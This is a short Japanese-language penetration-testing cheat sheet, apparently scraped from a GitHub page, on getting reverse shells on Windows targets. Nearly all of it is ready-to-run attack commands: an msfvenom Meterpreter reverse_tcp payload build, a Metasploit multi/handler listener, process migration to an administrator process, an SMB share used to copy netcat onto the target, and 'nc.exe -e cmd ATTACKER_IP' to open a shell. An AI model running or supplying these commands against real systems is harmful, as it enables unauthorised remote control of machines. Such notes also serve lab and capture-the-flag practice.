### metasploitを利用

msfvenomを用いてリバースシェルのスクリプトを作成

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1337 -f exe > shellx86.exe
```

何かしらの方法でターゲットにスクリプトをアップロード

metasploitを用いて待受ポートを起動

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 1337
run
```

何かしらの方法でアップロードしたスクリプトを管理者権限で実行

プロセス一覧を確認して管理者権限のプロセスに移動

```bash
ps
migrate PID
shell
```

### SMBの簡易サーバを立ち上げてリバースシェルを構築

smbserverを用いてローカルでSMBサーバを立ち上げる。

```bash
smbserver.py SHARE_NAME SHARED_FOLDER_PATH -smb2support -username USER_NAME -password PASSWORD
```

上のコマンドでSMBサーバを立ち上げた後、攻撃対象からSMBサーバへは以下のコマンドでアクセス。

```powershell
net use \\\\ATTACKER_IP\\SHARE_NAME /user:USER_NAME PASSOWORD
```

リバースシェルを構築する場合はローカルから `nc64.exe` をアップロードして攻撃対象からローカルの待受ポートにアクセスする。

```powershell
copy \\\\ATTACKER_IP\\SHARED_FOLDER\\nc64.exe \\programdata\\nc.exe
\\programdata\\nc.exe -e cmd ATTACKER_IP PORT_NUMBER
```

### pythonでHTTPサーバを立ち上げてリバースシェルを構築

pythonを用いてローカルの `nc.exe` があるディレクトリでHTTPサーバを立ち上げる。

```powershell
python3 -m http.server 8080
```
